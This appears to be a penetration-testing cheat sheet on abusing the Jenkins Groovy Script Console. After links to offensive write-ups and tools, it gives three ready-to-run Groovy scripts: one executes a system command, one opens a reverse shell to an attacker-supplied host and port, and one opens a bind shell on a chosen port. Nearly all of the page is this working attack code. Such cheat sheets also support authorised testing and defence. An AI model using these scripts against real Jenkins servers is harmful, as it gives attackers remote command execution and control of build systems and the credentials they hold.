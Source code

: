 # Jenkis




## Script Console Abuse

* [https://blog.pentesteracademy.com/abusing-jenkins-groovy-script-console-to-get-shell-98b951fa64a6](https://blog.pentesteracademy.com/abusing-jenkins-groovy-script-console-to-get-shell-98b951fa64a6)
* [https://gist.github.com/frohoff/fed1ffaab9b9beeb1c76](https://gist.github.com/frohoff/fed1ffaab9b9beeb1c76)
* [https://github.com/gquere/pwn_jenkins](https://github.com/gquere/pwn_jenkins)

* "Manage Jenkis" > "Script Console" > Run.

Execute command:

{% code title="exec.groovy" %}
```groovy
def sout = new StringBuffer(), serr = new StringBuffer()
def proc = 'whoami'.execute()
proc.consumeProcessOutput(sout, serr)
proc.waitForOrKill(1000)
println "out> $sout err> $serr"
```
{% endcode %}

Reverse shell:

{% code title="reverse.groovy" %}
```groovy
String host = "<LHOST>";
int port = <LPORT>;
String cmd = "/bin/bash"; // or "cmd.exe" for Windows

Process p = new ProcessBuilder(cmd).redirectErrorStream(true).start();
Socket s = new Socket(host, port);

InputStream pi = p.getInputStream(), pe = p.getErrorStream(), si = s.getInputStream();
OutputStream po = p.getOutputStream(), so = s.getOutputStream();

while (!s.isClosed()) {
    while (pi.available() > 0)
        so.write(pi.read());
    while (pe.available() > 0)
        so.write(pe.read());
    while (si.available() > 0)
        po.write(si.read());
    so.flush();
    po.flush();
    Thread.sleep(50);
    try {
        p.exitValue();
        break;
    } catch (Exception e) {}
};

p.destroy();
s.close();
```
{% endcode %}

Bind shell:

{% code title="bind.groovy" %}
```groovy
int port = <LPORT>;
String cmd="/bin/bash"; // or "cmd.exe" for Windows

Process p = new ProcessBuilder(cmd).redirectErrorStream(true).start();
Socket s = new java.net.ServerSocket(port).accept();

InputStream pi = p.getInputStream(), pe = p.getErrorStream(), si = s.getInputStream();
OutputStream po = p.getOutputStream(), so = s.getOutputStream();

while (!s.isClosed()) {
    while (pi.available() > 0)
        so.write(pi.read());
    while (pe.available() > 0)
        so.write(pe.read());
    while (si.available() > 0)
        po.write(si.read());
    so.flush();
    po.flush();
    Thread.sleep(50);
    try {
        p.exitValue();
        break;
    } catch (Exception e) {}
};

p.destroy();
s.close();
```
{% endcode %}
